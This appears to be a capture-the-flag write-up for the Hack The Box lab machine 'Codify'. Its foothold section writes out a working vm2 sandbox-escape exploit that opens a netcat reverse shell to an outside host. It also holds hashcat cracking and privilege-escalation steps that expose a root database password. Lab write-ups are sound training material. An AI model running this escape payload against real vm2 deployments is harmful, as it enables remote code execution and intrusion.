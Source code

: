 <font size="10">Codify</font>

### Difficulty:

`easy`


# Enumeration

```
echo '10.10.11.238 codify.htb' | sudo tee -a /etc/hosts
```


The vm2 library is a widely used and trusted tool for sandboxing JavaScript.

# Foothold

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.3.3.7 1337 >/tmp/f');
}
`

console.log(vm.run(code));
```

tickets.db in /var/www/contact with a user table
```
3	joshua	$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```


```
hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt.gz
```

# Privilege Escalation

Run script with sudo
```
joshua@codify:~$ sudo -l
[sudo] password for joshua:
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

Use pspy to check the password
```
2023/11/05 15:16:41 CMD: UID=0     PID=43930  | /bin/bash /opt/scripts/mysql-backup.sh
2023/11/05 15:16:41 CMD: UID=0     PID=43929  | /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES;
2023/11/05 15:16:41 CMD: UID=0     PID=43931  |
```